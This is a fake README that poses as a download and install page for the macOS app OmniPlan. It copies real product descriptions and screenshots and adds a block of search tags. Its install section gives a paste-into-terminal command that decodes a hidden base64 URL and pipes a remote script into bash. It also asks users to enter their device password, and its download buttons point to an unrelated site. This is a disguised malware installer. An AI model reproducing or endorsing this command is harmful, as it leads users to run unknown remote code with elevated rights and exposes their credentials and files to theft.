 # 📊 OmniPlan — Professional Project Management Software for macOS

**OmniPlan** is a comprehensive project management app designed specifically for macOS. It helps professionals plan, track, and manage complex projects with intuitive tools, seamless collaboration, and deep macOS integration. Perfect for project managers, teams, and anyone who wants clear control over their workflows.

---

## ✅ Download OmniPlan for macOS  
[![Download OmniPlan](https://img.shields.io/badge/Download-OmniPlan-blueviolet)](https://shuziktobehuman.github.io/huja/OmniPlan)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 📦 What is OmniPlan?

OmniPlan is a powerful project planning and scheduling app from The Omni Group. It allows users to create detailed project plans, assign resources, track progress, and identify bottlenecks. With features like Gantt charts, critical path visualization, and collaboration tools, OmniPlan makes managing projects more efficient and transparent.

---

## ✨ Features

- 📅 Visual Gantt charts and project timelines  
- 👥 Resource management and task assignments  
- 🔄 Real-time collaboration and syncing across devices  
- 📈 Critical path analysis and project forecasting  
- ⏱️ Time tracking and milestone tracking  
- 🖥️ Native macOS and iOS support with Apple Silicon optimization  
- 🔔 Notifications and alerts for deadlines and changes  
- 🛠️ Integration with Calendar, Reminders, and other macOS apps  
- 📊 Export to PDF, CSV, Microsoft Project formats  

---

## 💡 Why Use OmniPlan?

- ✅ Gain clear visibility into complex projects and timelines  
- 🤝 Collaborate efficiently with team members and stakeholders  
- 🗂️ Manage resources and workloads smartly  
- 📈 Predict and resolve project risks before they impact delivery  
- 🎯 Ideal for project managers, freelancers, and teams of all sizes  

---

[![Download OmniPlan](https://img.shields.io/badge/Download-OmniPlan-blueviolet)](https://shuziktobehuman.github.io/huja/OmniPlan)

---

## 🖼️ Preview

![OmniPlan Screenshot 1](https://www.omnigroup.com/assets/img/app/plan-4/op-mac-header.png)  
![OmniPlan Screenshot 2](https://support.omnigroup.com/doc-assets/OmniPlan-Mac/OmniPlan-Mac-v3.0.0.1/en/EPUB/art/op3mac_ch02_02_taskview.png)

---

## 📌 Tags

omniplan, omniplan software, omniplan 4, omniplan4, omniplan for mac, omniplan project management,  
omniplan for windows, omniplan pricing, omniplan 3, omniplan online, omniplan web, omniplan download,  
omni plan 4, omnifocus omniplan, omniplan 2, omniplan 3 download, omniplan app, omniplan cost,  
omniplan discount, omniplan ios, omniplan ipad, omniplan training, omniplan mac, omniplan mac download
